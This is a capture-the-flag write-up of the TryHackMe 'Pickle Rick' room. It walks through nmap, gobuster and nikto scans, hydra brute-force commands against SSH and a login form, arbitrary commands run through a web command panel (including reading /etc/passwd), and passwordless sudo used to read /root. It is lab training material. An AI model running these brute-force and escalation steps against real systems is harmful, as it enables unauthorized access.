 # THM:Pickle Rick

URL: https://tryhackme.com/room/picklerick [Easy]

## Reconnaissance

Description of the room:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -Pn xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

But then ultimately ran again using the `common.txt` dirb wordlist:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/robots.txt           (Status: 200) [Size: 17] 
```

*Also see: [gobuster.log](gobuster.log) and [gobuster_common.log](gobuster_common.log)*

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Found the following:

```python
+ /login.php: Admin login page/section found.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Unsuccessfully, I did try using the username found in the HTML source of the main `index.html` page with hydra to brute force SSH and the login page, but those didn't work. Those commands were:

#### SSH

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    ssh://xxx.xxx.xxx.xxx
```

*See: [hydra.ssh.log](hydra.ssh.log)*

#### HTTP

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    xxx.xxx.xxx.xxx http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

*See: [hydra.web.log](hydra.web.log)*

---

Next, using the username found in the HTML source of the main `index.html` page, and using the potential password we found in `/robots.txt`, we try those credentials from the `/login.php` page, and find that we can log in and use a "Command Panel" which appears to let us run arbitrary commands, and see the results.

We can run `ls -la` to find:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The contents of `Sup3rS3cretPickl3Ingred.txt` are the answer to the "first ingredient" needed for this room.

---

If we run `less /etc/passwd` we can see that there is a user account called `ubuntu`. Or, we can run `ls -la /home/` to see the users who have a home directory. With that, we can see a directory listing of that users' home directory with `ls -ls /home/rick` and get:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The contents of `second ingredients` are the answer to the "second ingredient" needed for this room.

### Privilege Escalation

With this access we have, we can also look in the `ubuntu` users home folder with `ls -la /home/ubuntu` and see:

```bash
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

Since we have a `.sudo_as_admin_successful` file, we might assume we have some `sudo` privileges, so we run `sudo -l` to see:

```bash
Matching Defaults entries for www-data on ip-10-10-243-208.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-208.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow. So, the `ubuntu` account has `sudo` privilege and no password prompt. Let's use that to look in the `root` home folder with `sudo ls -la /root` to find:

```bash
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Feb  6 02:07 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

The contents of `3rd.txt` are the answer to the "final ingredient" needed to complete this room.

## Maintaining Access

None needed.

## Clearing Tracks

We never actually "hacked" into this server, so there is nothing to clear.

## Summary

Completed: [2022-02-05 21:56:08]